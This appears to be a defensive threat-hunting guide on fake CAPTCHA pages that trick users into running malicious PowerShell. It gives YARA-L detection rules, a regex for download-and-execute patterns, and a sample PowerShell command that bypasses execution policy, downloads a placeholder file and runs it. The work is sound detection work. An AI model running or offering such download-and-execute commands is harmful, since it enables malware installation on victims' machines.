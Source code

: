 # Hypothesis-Driven Threat Hunt: Fake CAPTCHA Prompting Malicious PowerShell Execution

## Step 1: Define the Hypothesis
Threat actors use fake CAPTCHA challenges to socially engineer victims into copying and executing malicious PowerShell commands, leading to initial access, malware execution, or system compromise. While credential stealers are the most commonly used, a threat actor could use this attack to execute ransomware or remote access trojans. 

## Step 2: Identify Data Sources
To detect such activities, monitor:

- **Web Traffic Logs**: Identify access to suspicious or uncommon CAPTCHA pages.
- **Clipboard Monitoring**: Detect unexpected or unauthorized content copied to the clipboard.
- **PowerShell Execution Logs**: Capture and analyze executed commands.
- **Endpoint Detection and Response (EDR) Logs**: Monitor for malicious activities post-execution.

## Step 3: Indicators of Compromise (IoCs)
- **Clipboard Events**: Sudden copying of PowerShell commands.
- **PowerShell Execution**: Commands initiating downloads or executing scripts from external sources.
- **Network Connections**: Outbound traffic to known malicious domains or IPs.
- **File System Changes**: Creation of unauthorized scripts or executables.

## Step 4: Develop Detection Queries

### (YARA-L)

**Detect Clipboard Copying of PowerShell Commands**:  
Focus on detecting subsequent PowerShell executions that could result from clipboard copying actions. YARA-L can be used to identify patterns indicative of PowerShell commands being executed after clipboard copying events.


### (YARA-L).
```
rule suspicious_powershell_execution {
    meta:
        description = "Detects PowerShell executions that may result from malicious clipboard content"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(Invoke-WebRequest|IEX|DownloadString).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:

```
rule powershell_download_execute {
    meta:
        description = "Detects PowerShell commands that download and execute scripts"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(New-Object\s+Net.WebClient|Invoke-WebRequest).*(DownloadString|DownloadFile).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:
Regex Pattern: Monitor PowerShell Executions with Suspicious Parameters:
```
.*(Invoke-WebRequest|IEX|DownloadString|New-Object\s+Net.WebClient|Invoke-Expression).*(http|https|file|ftp).*
``` 
### Explanation:
- PowerShell commands like Invoke-WebRequest and IEX are commonly used in malicious scripts to download and execute payloads.
- This regex checks for URLs (http, https, file, ftp) in the command line to spot suspicious downloads.

---------------------------------------------------------------------------   
### Example of Powershell command <THIS DOES NOTHING>:

```powershell
powershell -ExecutionPolicy Bypass -Noprofile -Command "invoke-Webrequest -URL 'http here' -Outfile 'C:\Users\Public\malware.exe'; Start-Process 'C\Users\Public\malware.exe'

```

### Full Command Breakdown:
-ExecutionPolicy Bypass: Temporarily bypasses the PowerShell script execution policy to allow the script to run without restriction.
-NoProfile: Prevents loading of the user profile, which speeds up the execution and avoids potential conflicts.
-Invoke-WebRequest: Downloads the payload (payload.exe) from the provided URL.
-Start-Process: Runs the downloaded malware.exe file.
